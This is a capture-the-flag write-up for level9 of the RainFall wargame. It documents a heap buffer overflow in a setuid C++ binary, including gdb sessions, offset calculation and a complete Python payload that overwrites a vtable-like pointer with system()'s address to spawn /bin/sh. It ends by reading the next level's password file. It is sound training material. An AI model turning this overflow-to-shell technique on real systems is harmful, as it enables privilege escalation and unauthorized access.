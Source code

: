 Level9 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level9/level9
```

Level9 rights:
```Shell
-rwsr-s---+ 1 bonus0 users  6720 Mar  6  2016 level9
```

Testing the binary:
```Shell
level9@RainFall:~$ ./level9
level9@RainFall:~$ ./level9 $(python -c 'print("A" * 300)')
Segmentation fault (core dumped)
```

Let's decompile it with Hex-Rays on https://dogbolt.org/ and see what is there:
- the code is written in c++
- unlike the other levels, there is no `system()` calls or direct access to the password
- two exploitable buffers are allocated on the heap with `new`
- we can exploit `memcpy()` because it takes argv[1] as argument and store it in one of the buffers.

Let's check if `system()` belongs to the shared libraries, and if so, fetch its address:
```Shell
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7d86060 <system>
```
Here it is in little endian: `\x60\x60\xd8\xb7`.

We will store it in the buffer through argv[1]. If we want to overflow it, we can calculate the offset with a pattern from [this](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?):
```Shell
[...]
0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
0x0804867c <+136>:   mov    0x10(%esp),%eax
0x08048680 <+140>:   mov    (%eax),%eax
0x08048682 <+142>:   mov    (%eax),%edx
[...]
Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
```

Interestingly, this is it not the value that we must feed the generator. We have to do an extra step, because the true value is stored in `eax`:
```Shell
(gdb) info register
eax            0x41366441       1094083649
[...]
```

The generator gives us an offset of 108 bytes. We will pad our payload with 104 `A` (4 bytes are reserved for `system()` address). When disassembling `main()`, you can see two memory allocations of 108 bytes by the `new` operator:
```Shell
[...]
0x08048610 <+28>:    movl   $0x6c,(%esp)
0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
[...]
0x08048632 <+62>:    movl   $0x6c,(%esp)
0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
[...]
```

Analysing the code in more depth, we realised three important things:
- the first 4 bytes of the 2nd buffer needs a valid address that contains an executable function
- the next 4 bytes can store the argument of that function
- if we overflow the 1st buffer with argv[1], we start writing on the 2nd buffer

This means that we must find the start of our buffer to place it into these first 4 bytes. To do so, we will run the program with gdb and place a breakpoint right after the memory allocation. The address will be stored in `eax`:
```Shell
(gdb) disas main
Dump of assembler code for function main:
[...]
0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
0x0804867c <+136>:   mov    0x10(%esp),%eax <=========== eax being loaded with the address
[...]
(gdb) b *0x0804867c
Breakpoint 1 at 0x804867c
(gdb) run
Starting program: /home/user/level9/level9 "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"

Breakpoint 1, 0x0804867c in main ()
(gdb) info register $eax
eax            0x804a00c        134520844
```
Here it is in little endian: `\x0c\xa0\x04\x08`.

We're almost done, we just need to add the argument for `system()` as an extra string in the payload: `;/bin/sh`. If you don't add `;`, you will get permission denied, so you need to send an empty command first to skip that check.

And the final result is:
```Shell
level9@RainFall:~$ ./level9 $(python -c 'print("\x60\x60\xd8\xb7" + "A" * 104 + "\x0c\xa0\x04\x08" + ";/bin/sh")')
sh: 1: 
       : not found
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
